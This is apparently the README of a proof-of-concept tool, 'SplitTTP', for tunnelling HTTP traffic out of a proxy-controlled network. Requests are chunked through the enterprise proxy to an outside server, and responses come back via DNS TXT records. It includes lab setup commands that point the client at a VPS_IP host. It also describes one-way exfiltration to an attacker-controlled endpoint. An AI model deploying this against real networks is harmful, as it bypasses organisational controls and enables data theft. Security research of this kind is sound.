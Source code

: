 
## Component Overview

All components are configurable via command-line arguments. Use `-h` or `--help` with each script for details.

| File               | Role                                                                                                                                                                                                                                                           | Key Configuration                                                                 |
|--------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| `splittp_client.py` | An HTTP proxy server. Receives requests from applications, chunks and sends them to `splittp_server.py` via the enterprise proxy. Retrieves responses using its internal `dnsclient.py`.                                                                         | `-s <server_url>`, `-p <listen_port>`, `--listen-host <ip>`, DNS settings (`--dns-domain`, etc.) |
| `splittp_server.py` | A Flask HTTP server (run on an internet-accessible machine). Reassembles chunked data, fetches content from the destination server, pickles the `requests.Response`, and saves it for the `dns_server.py`.                                                      | `-port <listen_port>`, SSL options                                                |
| `dnsserver.py`     | A DNS server (run on an internet-accessible machine, typically alongside `splittp_server.py`). Serves the pickled `requests.Response` objects (which are stored by `splittp_server.py`) in base32-encoded chunks via `CNAME` and `TXT` records. Saves files to `/tmp/dns_files/`. | `-d <base_domain>`, `-p <listen_port>`, `--tcp`, `--udp`                            |
| `dnsclient.py`     | A module used internally by `splittp_client.py`. It handles querying `dns_server.py` for `CNAME` (chunk count) and `TXT` (chunk payload) records, decodes the base32 data, and unpickles the `requests.Response` object.                                   | Configured by `splittp_client.py`                                                 |

---

## When DNS Is *Not* Required

If you only need one-way exfiltration (sending data out but not receiving a response back to the original client):

* The DNS components (`dns_server.py` and the DNS-related logic in `splittp_client.py`/`dnsclient.py`) are not strictly necessary.
* `splittp_server.py` could be modified to discard the response from the destination server or POST it to an attacker-controlled endpoint elsewhere, instead of pickling it for DNS retrieval.

DNS remains in this PoC to **prove a complete round trip** and demonstrate bidirectional data transfer.

---

## Quick Lab Setup

```bash
# 0. Install dependencies
pip install aiohttp flask dnslib dnspython requests

# 1. On an Internet-reachable VPS (e.g., VPS_IP = your server's public IP)

# Start the SplitTTP Server (Flask App)
# Listens for chunked requests from the enterprise proxy
# Fetches from destination, pickles response, saves to /tmp/dns_files/
python3 splittp_server.py -port 5000 &

# Start the DNS Server
# Serves pickled responses from /tmp/dns_files/ via DNS
# Default base domain is 'my.files', default port 5354 (UDP & TCP)
python3 dns_server.py -d my.files -p 5354 --udp --tcp &
# (Note: --udp and --tcp are enabled by default if not specified)


# 2. Inside the proxy-controlled network (Attacker's machine)

# Start the SplitTTP Client (aiohttp Proxy & DNS Client)
# Listens for application requests (e.g., from curl)
# Sends data to splittp_server via enterprise proxy
# Retrieves response via dns_server
python3 splittp_client.py \
    -s http://VPS_IP:5000 \
    -p 8999 \
    --listen-host 0.0.0.0 \
    --dns-server-ip VPS_IP \
    --dns-server-port 5354 \
```